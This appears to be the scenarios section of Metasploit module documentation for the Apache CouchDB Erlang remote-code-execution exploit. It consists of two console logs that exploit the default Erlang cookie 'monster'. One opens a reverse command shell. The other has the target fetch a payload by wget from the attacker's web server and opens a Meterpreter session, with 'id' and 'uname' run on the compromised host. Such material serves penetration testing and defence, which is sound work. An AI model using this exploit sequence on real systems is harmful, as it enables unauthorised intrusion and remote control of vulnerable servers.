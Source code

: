 ## Scenarios
### Unix Command, Ubuntu 20.04, Apache CouchDB 3.2.1
```
msf exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse double SSL handler on 172.16.199.1:4444
[*] 172.16.199.164:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.164:4369...
[*] 172.16.199.164:4369 - Successfully found EDPM socket
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.164:4369 - Connection successful
[*] 172.16.199.164:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.164:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.164:4369 - sending payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo t82KLKYvcDd54em2;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "t82KLKYvcDd54em2\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (172.16.199.1:4443 -> 172.16.199.164:53778) at 2022-10-13 14:09:49 -0400

id
uid=128(couchdb) gid=134(couchdb) groups=134(couchdb)
uname -a
Linux ubuntu 5.15.0-50-generic #56~20.04.1-Ubuntu SMP Tue Sep 27 15:51:29 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Linux Dropper, Ubuntu 20.04, Apache CouchDB 3.2.1
```
msf exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.164:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.164:4369...
[*] 172.16.199.164:4369 - Successfully found EDPM socket
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.164:4369 - Connection successful
[*] 172.16.199.164:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.164:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.164:4369 - Using URL: http://172.16.199.1:8080/xiNdbG3
[*] 172.16.199.164:4369 - sending payload...
[*] 172.16.199.164:4369 - Client 172.16.199.164 (Wget/1.20.3 (linux-gnu)) requested /xiNdbG3
[*] 172.16.199.164:4369 - Sending payload to 172.16.199.164 (Wget/1.20.3 (linux-gnu))
[*] Meterpreter session 10 opened (172.16.199.1:4444 -> 172.16.199.164:57710) at 2022-10-17 18:33:57 -0400
[*] 172.16.199.164:4369 - Command Stager progress - 100.00% done (112/112 bytes)
[*] 172.16.199.164:4369 - Server stopped.

meterpreter > getuid
```